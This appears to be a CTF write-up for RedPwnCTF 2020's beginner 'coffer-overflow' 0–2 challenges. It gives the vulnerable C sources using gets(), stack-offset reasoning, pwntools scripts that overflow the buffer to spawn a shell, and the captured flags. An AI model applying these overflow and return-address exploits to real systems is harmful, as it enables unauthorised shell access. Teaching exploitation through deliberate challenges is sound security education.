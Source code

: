 ```yaml
---
id: 1
title: "Writeup for RedPwnCTF 2020 coffer-overflow-0, 1, 2"
subtitle: "Beginner's Pwn"
date: "2020.06.26"
tags: "ctf, linux-bof"
---
```


# coffer-overflow 0

### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.

This is our target line:
```c
if(code != 0) {
    system("/bin/sh");
  }
```

As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```

This should redirect us to shell, and with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

# coffer-overflow-1

### Slightly more advanced
We take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
	
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
	system("/bin/sh");
  }
}
```

This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

# coffer-overflow-2

### Ret 2 bin?
Similarly, we take a quick look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

}

void binFunction() {
  system("/bin/sh");
}
```

Ah, now we get to ROP. We simply need to ROP to binFunction() to execute it, which will redirect us to shell.

There are many ways to find the address of the function, we can use `objdump -d` to find the address of binFunction():
```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now we just need to overwrite the `rip` register with this value in little endian.
We take 16 random characters + 8 to overwrite the `rbp` register for a padding of 24.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-2")
p = remote("2020.redpwnc.tf", 31908)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0x4006e6)
p.sendline(payload)
p.interactive()
```

This redirects us to shell:
```
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

# Final words
Overall, these challenges were pretty easy and meant for beginner CTF players, but it was still good practice to get used to the most basic form buffer overflow.